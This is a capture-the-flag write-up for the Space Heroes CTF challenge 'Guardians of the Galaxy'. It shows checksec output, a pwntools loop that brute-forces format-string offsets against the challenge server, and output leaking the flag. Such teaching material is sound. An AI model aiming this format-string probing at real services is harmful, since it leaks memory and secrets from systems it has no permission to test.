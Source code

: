 ```yaml
---
title: "shctf/pwn: Guardians of the Galaxy"
date: 2022-04-06 10:33:54
categories:
- ctfs
- shctf
- pwn
tags:
- pwn
- format-string
description: "Learn how to brute force a format string attack on ELF binaries! This is my writeup for the Space Heroes CTF binary/pwn challenge \"Guardians of the Galaxy\"."
permalink: ctfs/shctf/pwn/guardians-of-the-galaxy/
thumbnail: /asset/banner/banner-guardians.png
---
```


{% fontawesome %}

{% challenge %}
authors: GlitchArchetype
solvers: enscribe
files: '[guardians](/asset/shctf/guardians)'
description: |
    Ronan the Accuser has the Power Stone. Can Starlord find a successful distraction format?  
    `nc 0.cloud.chals.io 12690`
{% endchallenge %}

{% ccb html:true caption:checksec.sh url:'github.com/slimm609/checksec.sh' url_text:'github link' terminal:true %}
<span class="meta prompt_">$ </span>checksec guardians
[<span style="color:#277FFF"><b>*</b></span>] &apos;/home/kali/ctfs/shctf/pwn/guardians-of-the-galaxy/guardians&apos;
    Arch:     amd64-64-little
    RELRO:    <span style="color:#5EBDAB">Full RELRO</span>
    Stack:    <span style="color:#D41919">No canary found</span>
    NX:       <span style="color:#5EBDAB">NX enabled</span>
    PIE:      <span style="color:#5EBDAB">PIE enabled</span>
{% endccb %}

Let's look at what happens when you run that binary given to us.

{% ccb html:true terminal:true %}
<span class="meta prompt_">$ </span>./guardians 
Error, please message admins with 'infinity_error'.
{% endccb %}

This error is because the binary is probably trying to reference a `flag.txt` within its directory that doesn't exist. Let's create one and run it again:

{% ccb lang:console terminal:true %}
$ touch flag.txt && echo "FLAGHERE" > flag.txt
$ ./guardians
Does Quill manage to win the dance battle?
{% endccb %}

There, we got it to work locally. Since we know that this is problem a format string vulnerability from the "find a successful distraction format" part of the description, let's assume that the vulnerability is it writing our input to the stack with `printf()`. We will need to work our way up the stack with the format `%n$s`, where `n` is the decimal index of the argument you want, and `s` is the `printf()` specifier for a **string of characters**. I wrote this Python3/pwntools script here to achieve this loop:

{% ccb lang:py gutter1:1-11 caption:guardians.py url:gist.github.com/jktrn/abced39a897e40c196dc2eb3348e1db9 url_text:'github gist link' %}
from pwn import *
for i in range(0, 100):
        p = remote('0.cloud.chals.io', 12690)  
        log.info(f"Trying offset {i}...")
        p.sendline(bytes(('%' + str(i) + '$s'), encoding='utf-8'))

        output = p.recvS()
        if 'shctf' in output:
                log.success(output)
                break
        p.close()
{% endccb %}

As you can see, it will send a UTF-8 encoded format string, with `str(i)` being the looping variable. If its output contains the flag, the loop breaks and the script will stop. Let's run it:

{% ccb html:true highlight:24 terminal:true %}
<span class="meta prompt_">$ </span>python3 exp.py
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 0...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 1...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 2...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 3...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 4...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 5...
[<span style="color:#277FFF"><b>*</b></span>] Closed connection to 0.cloud.chals.io port 12690
[<span style="color:#47D4B9"><b>+</b></span>] Opening connection to 0.cloud.chals.io on port 12690: Done
[<span style="color:#277FFF"><b>*</b></span>] Trying offset 6...
[<span style="color:#47D4B9"><b>+</b></span>] Does Quill manage to win the dance battle?
    Oh no, Ronano has seen through the distraction!
    shctf&#123;im_distracting_you&#125;
{% endccb %}

{% flagcounter %}